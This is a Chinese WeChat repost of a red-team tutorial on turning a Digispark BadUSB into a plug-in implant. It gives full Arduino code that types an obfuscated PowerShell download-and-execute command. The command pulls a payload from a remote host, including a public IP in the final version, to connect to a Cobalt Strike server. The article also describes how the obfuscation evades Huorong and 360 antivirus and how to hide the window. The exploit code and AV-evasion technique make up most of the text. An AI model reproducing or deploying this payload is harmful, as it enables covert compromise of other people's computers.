 #  实战|HVV中的免杀项目

[ 黄公子学安全 ](javascript:void\(0\);)

**黄公子学安全** ![]()

微信号 huang_Block

功能介绍 主要和大家分享安全笔记、如何从一个小白逆袭成为技术大牛的经验以及在学习安全过程中容易出现的错误。为各位网络安全爱好者提供优质学习平台。

____

___发表于_

收录于合集

以下文章来源于李白你好 ，作者李白团队-Jerry

![](http://wx.qlogo.cn/mmhead/Q3auHgzwzM64s9gX2k0hsiazj2NHKBakVpZzzOAgJWEM9BndyEscXZg/0)
**李白你好** .

"一个有趣的网络安全小平台" 主攻WEB安全 | 内网渗透 | 红蓝对抗 | SRC | 安全资讯等内容分享，关注了解更多实用的安全小知识～

# ****声明：****
文章中涉及的程序(方法)可能带有攻击性，仅供安全研究与教学之用，读者将其信息做其他用途，由用户承担全部法律及连带责任，文章作者不承担任何法律及连带责任。  
  
---  
  
 **0x01 前言**

攻防演练的时候有查U盘就能上线靶标电脑的操作（近源渗透），这种攻击手法虽然看着猥琐，但是是简单粗暴。今天团队的师傅写了一篇文章讲解这个攻击手法的原理，欢迎师傅们点赞分享。

 **0x02  准备阶段**

1、购买BadUsb，我购买的是Digispark。

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230621224024.png)

2、安装Arduino IDE3、配置Arduino IDE ，添加开发板，安装驱动。

  * 

    
    
    参考链接：https://www.jianshu.com/p/b33d61fc2678

4、掌握Digispark编程语法。（语法较简单，可以边查边写）至此，BadUsb和开发环境均已配置完毕，可以开始编写代码。

 **0x03  编写代码**

编写代码前，我们首先要了解BadUsb的大致原理，本质上就是插入电脑后可以模拟键盘输入，既然是模拟键盘输入，我们可以先写出一个大致的代码框架。

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    #include "DigiKeyboard.h"#define MOD_SHIFT_LEFT      (1<<1)#define MOD_CONTROL_LEFT    (1<<0)#define KEY_ENTER   40#define KEY_CAPS_LOCK 0x39  
    void setup() {DigiKeyboard.delay(2000);DigiKeyboard.sendKeyStroke(0);DigiKeyboard.delay(2000);DigiKeyboard.sendKeyStroke(KEY_R,MOD_GUI_LEFT); //win+rDigiKeyboard.delay(500);DigiKeyboard.print(F("cmd")); //输入cmdDigiKeyboard.delay(500);DigiKeyboard.sendKeyStroke(KEY_ENTER); //回车DigiKeyboard.delay(500);//后面输入恶意代码}  
    void loop() {}

这段代码先声明了一些键盘按键代表的字符，然后通过键盘唤起CMD。其中插入BadUsb后间隔2秒开始执行程序，每次输入字符后都间隔0.5s。

代码框架编写完成后，就可以开始构造我们的免杀恶意代码了。

要想通过键盘输入上线的我们的C2服务器，有2种思路。通过powershell命令上线 或 通过命令行文件下载恶意文件上线。

1、文件下载上线

考虑到免杀问题，certutil这些常见的命令几乎被所有杀软拦截，网上公开的绕过方法（例如双写certutil）可以绕过火绒，但360无法绕过。

文件成功下载后，恶意文件的免杀也具有一定局限性，所以如果考虑免杀，那么通过文件下载这种模式来实现BadUsb上线存在很大难度。

  

2、powershell命令上线

powershell上线也分两种方式

(1)通过ps1文件上线

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230621224025.png)

ps1文件免杀效果好，Github有很多针对ps1文件的免杀项目，可以轻松绕过国内主流杀软。

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230621224026.png)

但ps1文件庞大的代码量又带来了一个问题，在我们编写完成代码框架后，使用Arduino
IDE进行编译，提示“当前已使用了45%的存储空间”，而如果我们将ps1文件中的全部代码编译，则会存在闪存空间不足的问题。

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230621224027.png)

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230621224028.png)

有2种办法解决这个问题，使用钞能力购买闪存更大的开发板，或精简我们的ps1文件内容。至此通过ps1文件上线这个思路也在这里断了。

 (2)通过web服务上线

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230621224029.png)

通过这种方法生成的payload较为精简，不存在闪存不足的问题，只需要针对性的做一下免杀即可。

  

这里给出我免杀的方法，设置别名+^字符间隔+加号拼接字符串。

  * 

    
    
    cmd /c echo set-alias -name xz -value IEX;x^z (New-Object "NeT.WeBClienT").d^o^w^n^l^o^a^d^s^t^r^i^n^g('ht'+'tP://19'+'2.168.1.1'+'/a') | p^o^w^e^r^s^h^e^l^l -

这里没有添加后台运行powershell的参数，因为hidden参数会影响免杀效果，这样的运行方式实测可以绕过火绒和360。

  

那么代码就算是初步完成了，如下。

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    #include "DigiKeyboard.h"#define MOD_SHIFT_LEFT      (1<<1)#define MOD_CONTROL_LEFT    (1<<0)#define KEY_ENTER   40#define KEY_CAPS_LOCK 0x39  
    void setup() {DigiKeyboard.delay(2000);DigiKeyboard.sendKeyStroke(0);DigiKeyboard.delay(2000);DigiKeyboard.sendKeyStroke(KEY_R,MOD_GUI_LEFT); //win+rDigiKeyboard.delay(500);  
    // powershell上线 免杀火绒360 窗口不隐藏  需要点鼠标杀软放行DigiKeyboard.print(F("cmd")); //输入cmdDigiKeyboard.delay(500);DigiKeyboard.sendKeyStroke(KEY_ENTER); //回车DigiKeyboard.delay(500);DigiKeyboard.print(F("cmd /c echo set-alias -name xz -value IEX;x^z (New-Object "NeT.WeBClienT").d^o^w^n^l^o^a^d^s^t^r^i^n^g('ht'+'tP://19'+'2.168.1.1'+'/a') | p^o^w^e^r^s^h^e^l^l -")); //POWERSHELL上线DigiKeyboard.delay(500);DigiKeyboard.sendKeyStroke(KEY_ENTER); //回车}  
    void loop() {}

 **0x04  代码优化**

将写好的代码编译并烧录进BadUsb后，其实效果并没有那么理想，有如下几个问题：

1、部分电脑存在默认中文输入法，在模拟键盘输入的过程中会存在中文输入，未达到预期输入的内容

  

解决方案：开始模拟键盘输入前锁定大小写，相应的我们的免杀代码也要做出对应的大小写修改。

  *   *   * 

    
    
    DigiKeyboard.sendKeyStroke(KEY_CAPS_LOCK); //锁定大小写，防止默认中文输入法  
    DigiKeyboard.print(F("cmd /c echo set-alias -name xz -value IEX;x^z (New-Object \"NeT.WeBClienT\").d^o^w^n^l^o^a^d^s^t^r^i^n^g('ht'+'tP://19'+'2.168.1.1'+'/A’) | p^o^w^e^r^s^h^e^l^l -")); //POWERSHELL上线 路径大小写都要有a A

2、powershell运行完毕后，桌面留下一个黑框非常显眼。

解决方案：模拟键盘输入wind+d返回桌面隐藏cmd黑框，上线cs后立即迁移进程即可。

  

最终优化后的代码如下

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    #include "DigiKeyboard.h"#define MOD_SHIFT_LEFT      (1<<1)#define MOD_CONTROL_LEFT    (1<<0)#define KEY_ENTER   40#define KEY_CAPS_LOCK 0x39  
    void setup() {DigiKeyboard.delay(2000);DigiKeyboard.sendKeyStroke(0);DigiKeyboard.delay(2000);DigiKeyboard.sendKeyStroke(KEY_R,MOD_GUI_LEFT); //win+rDigiKeyboard.delay(500);DigiKeyboard.sendKeyStroke(KEY_CAPS_LOCK); //锁定大小写，防止默认中文输入法DigiKeyboard.delay(500);  
    // powershell上线 免杀火绒360 窗口不隐藏  需要点鼠标杀软放行DigiKeyboard.print(F("cmd")); //输入cmdDigiKeyboard.delay(500);DigiKeyboard.sendKeyStroke(KEY_ENTER); //回车DigiKeyboard.delay(500);DigiKeyboard.print(F("cmd /c echo set-alias -name xz -value IEX;x^z (New-Object \"NeT.WeBClienT\").d^o^w^n^l^o^a^d^s^t^r^i^n^g('ht'+'tP://4'+'3.138.111.78'+'/A') | p^o^w^e^r^s^h^e^l^l -")); //POWERSHELL上线 路径大小写都要有a ADigiKeyboard.delay(500);DigiKeyboard.sendKeyStroke(KEY_ENTER); //回车DigiKeyboard.delay(500);DigiKeyboard.sendKeyStroke(KEY_D,MOD_GUI_LEFT); //win+d}  
    void loop() {}

至此，实现了免杀火绒360 BadUsb即插即上线CS。

 **0x05 结语链接获取**

这篇文章是在我能力范围之内想出的BadUsb免杀上线的思路，希望能给各位师傅提供思路，如果师傅有更为新颖高效的思路也欢迎交流。

  

同时免杀不易，请珍惜当前可用的免杀方式，不要放在微步、VT等平台检测免杀效果。

参考链接：  

  *   *   *   *   *   * 

    
    
    https://www.jianshu.com/p/b33d61fc2678https://lzy-wi.github.io/2018IAMHUAPIDAN！/06/12/badusb/https://www.cnblogs.com/binglicheng/p/11615535.htmlhttps://blog.csdn.net/qq_34341458/article/details/123368269https://blog.csdn.net/weixin_52444045/article/details/126432290  
    

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

